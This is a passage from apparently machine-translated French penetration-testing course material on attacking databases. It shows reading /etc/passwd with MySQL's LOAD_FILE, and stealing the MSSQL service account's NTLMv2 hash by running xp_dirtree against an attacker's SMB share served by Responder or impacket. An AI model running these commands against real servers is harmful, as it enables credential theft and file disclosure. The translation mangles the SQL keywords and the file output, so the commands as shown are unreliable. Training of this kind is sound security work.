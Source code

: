 Comme nous l'avons mentionné précédemment, par défaut, une installation `MySQL` n'autorise pas la lecture arbitraire de fichiers, mais si les paramètres corrects sont en place et avec les privilèges appropriés, nous pouvons lire les fichiers en utilisant les méthodes suivantes :

#### MySQL - Lire les fichiers locaux dans MySQL

#### MySQL - Lire les fichiers locaux dans MySQL

MySQL - Lire des fichiers locaux dans MySQL

```
mysql> sélectionnez LOAD_FILE("/etc/passwd");

+-----------------------------------+
| CHARGER_FICHIER("/etc/passwd")
+------------------------------------------------------------- -+
racine:x:0:0:racine:/racine:/bin/bash
démon:x:1:1:démon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

<SNIP>

```

* * * * *

Capturer le hachage du service MSSQL
--------------------------

Dans la section `Attaquer SMB` , nous avons expliqué que nous pouvions créer un faux serveur SMB pour voler un hachage et abuser d'une implémentation par défaut dans un système d'exploitation Windows. Nous pouvons également voler le hachage du compte de service MSSQL à l'aide de procédures stockées `xp_subdirs` ou `xp_dirtree` non documentées, qui utilisent le protocole SMB pour récupérer une liste de répertoires enfants sous un répertoire parent spécifié à partir du système de fichiers. Lorsque nous utilisons l'une de ces procédures stockées et que nous la pointons vers notre serveur SMB, la fonctionnalité d'écoute d'annuaire force le serveur à s'authentifier et à envoyer le hachage NTLMv2 du compte de service qui exécute le serveur SQL.

Pour que cela fonctionne, nous devons d'abord démarrer [Responder](https://github.com/lgandx/Responder) ou [impacket-smbserver](https://github.com/SecureAuthCorp/impacket) et exécuter l'une des requêtes SQL suivantes :

#### XP_DIRTREE Vol de hachage

Vol de hachage XP_DIRTREE

```
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> ALLER

profondeur de sous-répertoire
--------------- -----------

```
